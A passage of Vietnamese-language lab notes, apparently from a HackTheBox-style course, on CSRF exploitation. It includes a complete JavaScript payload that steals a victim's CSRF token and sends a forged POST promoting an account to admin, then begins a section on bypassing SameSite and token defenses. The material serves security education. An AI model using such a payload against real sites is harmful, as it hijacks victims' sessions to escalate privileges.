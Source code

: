 - **Giải thích**:
  - `csrf_req.open()`: Mở một yêu cầu POST đến `/profile.php`.
  - `setRequestHeader()`: Thiết lập header Content-Type để gửi dữ liệu dưới dạng `application/x-www-form-urlencoded`.
  - `withCredentials = true`: Gửi kèm cookie phiên.
  - `csrf_req.send(params)`: Gửi yêu cầu kèm theo token CSRF hợp lệ.

#### **5. Payload Hoàn chỉnh trên Máy chủ Khai thác**

```html
<script>
  // Lấy CSRF token
  var xhr = new XMLHttpRequest();
  xhr.open('GET', 'https://vulnerablesite.htb/profile.php', false);
  xhr.withCredentials = true;
  xhr.send();
  var doc = new DOMParser().parseFromString(xhr.responseText, 'text/html');
  var csrftoken = encodeURIComponent(doc.getElementById('csrf').value);

  // Thực hiện tấn công CSRF
  var csrf_req = new XMLHttpRequest();
  var params = `promote=htb-stdnt&csrf=${csrftoken}`;
  csrf_req.open('POST', 'https://vulnerablesite.htb/profile.php', false);
  csrf_req.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
  csrf_req.withCredentials = true;
  csrf_req.send(params);
</script>
```

- Payload này sẽ:
  1. Gửi yêu cầu GET đến `/profile.php` để lấy CSRF token hợp lệ.
  2. Gửi yêu cầu POST đến `/profile.php` để thực hiện thay đổi trạng thái (thăng cấp tài khoản) kèm theo token CSRF hợp lệ.

#### **6. Kiểm tra Khai thác**

- Khi chúng ta xem payload trên máy chủ khai thác (`http://exploitserver.htb/exploit`), yêu cầu GET được thực hiện để lấy CSRF token, sau đó là yêu cầu POST với token hợp lệ.
- Sau khi gửi payload cho nạn nhân và chờ vài giây, chúng ta có thể kiểm tra và thấy rằng tài khoản của mình đã được thăng cấp lên quyền admin.

---
# Miscellaneous CSRF Exploitation

Trong bài viết này, chúng ta sẽ khám phá các kỹ thuật khai thác CSRF (Cross-Site Request Forgery) khác nhau, với mục đích vượt qua các biện pháp bảo vệ CSRF yếu. Các kỹ thuật này bao gồm việc kết hợp nhiều vector tấn công và khai thác các lỗ hổng trong cách các cookie SameSite được cấu hình, sử dụng tấn công Brute-Force đối với các mã thông báo CSRF yếu, và vượt qua các biện pháp bảo vệ CSRF dựa trên tiêu đề HTTP.

#### 1. **Kết hợp các vector tấn công để vượt qua SameSite Cookies**
